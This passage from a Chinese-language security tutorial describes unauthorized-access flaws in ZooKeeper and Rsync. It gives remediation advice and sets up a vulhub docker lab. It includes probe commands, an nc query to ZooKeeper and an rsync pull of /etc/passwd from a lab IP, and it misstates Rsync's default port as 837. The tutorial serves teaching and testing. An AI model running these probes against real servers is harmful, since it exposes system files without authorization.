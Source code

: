 ![image-20200707111251952](/images/Unauthorized/image-20200707111251952.png)

1、未授权访问

```
echo envi|nc 172.16.144.135 2181
```

![image-20200707111357506](/images/Unauthorized/image-20200707111357506.png)

2、ZooKeeper可视化

```
https://issues.apache.org/jira/secure/attachment/12436620/ZooInspector.zip
```

![image-20200707111758244](/images/Unauthorized/image-20200707111758244.png)

![image-20200707112356764](/images/Unauthorized/image-20200707112356764.png)

##### 漏洞修复

1、修改 ZooKeeper 默认端口，采用其他端口服务

2、添加访问控制，配置服务来源地址限制策略

3、增加 ZooKeeper 的认证配置

#### Rsync 未授权访问

##### 漏洞描述

​	Rsync（remote synchronize）是一个远程数据同步工具，可通过 LAN/WAN 快速同步多台主机间的文件，也可以同步本地硬盘中的不同目录。Rsync 默认允许匿名访问，如果在配置文件中没有相关的用户认证以及文件授权，就会触发隐患。Rsync 的默认端口为 `837`。

##### 漏洞验证

0、环境搭建

```shell
//下载项目
https://github.com/vulhub/vulhub/tree/master/rsync/common
//启动容器
# docker-compose build && docker-compose up -d
# docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                  NAMES
5c1eb59de4a8        common_rsync        "/docker-entrypoin..."   13 seconds ago      Up 12 seconds       0.0.0.0:873->873/tcp   common_rsync_1
```

1、未授权检测

```shell
# rsync rsync://{target_ip}/
➜  Downloads rsync rsync://172.16.144.135:873/
src            	src path
//下载文件至本地
➜  Downloads rsync rsync://172.16.144.135:873/src/etc/passwd ./
```
